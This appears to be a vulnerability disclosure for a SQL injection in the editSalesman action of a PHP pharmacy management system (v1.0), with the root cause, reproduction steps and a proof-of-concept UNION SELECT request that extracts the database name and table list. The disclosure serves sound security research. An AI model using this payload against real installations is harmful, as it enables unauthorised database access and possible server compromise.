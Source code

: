# pms editSalesman SQL injection vulnerability

## NAME OF AFFECTED PRODUCT(S)

**pharmacy-management-system-in-php-with-source-code**

### Vendor Homepage

https://code-projects.org/pharmacy-management-system-in-php-with-source-code/

###  **Manufacturers sites:**

 https://code-projects.org/

## AFFECTED AND/OR FIXED VERSION(S)

### VERSION

-  v1.0

### Software Link

 https://download-media.code-projects.org/2020/10/Pharmacy_Management_System_In_PHP_With_Source_Code.zip

### **AFFECTED FUNCION**

editSalesman

## PROBLEM TYPE

### Vulnerability Type

- sql injection

### Root Cause

- editSalesman

  Int action of edit Salesman ,The id parameter is obtained and saved to Salesmanid, and the application statement is spliced, and there is a vulnerability in the application injection

  ![image-20240816210200985](https://github.com/user-attachments/assets/43e3036a-71c1-4fbf-a593-7e67b369ace4)

## **Description of the vulnerability**

pharmacy_Management_System latest version has SQL injection via editSalesman, which can get information about the database and even GetShell via SQL injection

## **Vulnerability recurrence**

We need to set up this PMS website locally

Let's open the  /Index.php?id=allSalesman route

![image-20240723135616912](https://github.com/user-attachments/assets/351a00ed-dfaf-4d7f-8a72-3642e28d830d)



![image-20240723142715784-1723812909090](https://github.com/user-attachments/assets/817d8f0e-6138-4ba1-872d-240ee99f73bb)

![image-20240723142737947-1723812909090](https://github.com/user-attachments/assets/732fb69a-6417-4d66-98fc-f2f5371ecea9)

**POC**

```
GET /index.php?action=editSalesman&id=10}'+union+select+1,database(),(SELECT+GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema=database()),4,5,6,7,8+order+by+id+limit+0,1--+ HTTP/1.1
```

**Result**

![image-20240723142821268-1723812909091](https://github.com/user-attachments/assets/22ced658-2f56-4f92-8192-19e086b9eb57)



## Discover

PingXinyao

